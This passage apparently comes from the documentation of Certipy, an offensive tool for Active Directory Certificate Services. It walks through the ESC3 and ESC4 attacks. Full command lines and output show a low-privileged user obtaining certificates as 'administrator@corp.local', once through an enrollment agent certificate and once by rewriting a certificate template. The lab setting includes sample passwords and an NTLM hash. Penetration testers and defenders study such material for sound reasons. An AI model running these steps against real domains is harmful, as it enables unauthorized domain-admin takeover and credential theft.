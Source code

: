 First, we must request a certificate based on the vulnerable certificate template ESC3.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 665
[*] Got certificate with UPN 'john@corp.local'
[*] Saved certificate and private key to 'john.pfx'
```

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of other another user by specifying the `-on-behalf-of`. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `corp` rather than `corp.local`.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 666
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC4

ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

By default, Certipy will overwrite the configuration to make it vulnerable to ESC1. 

We can specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.

```bash
$ certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-alt` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 671
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

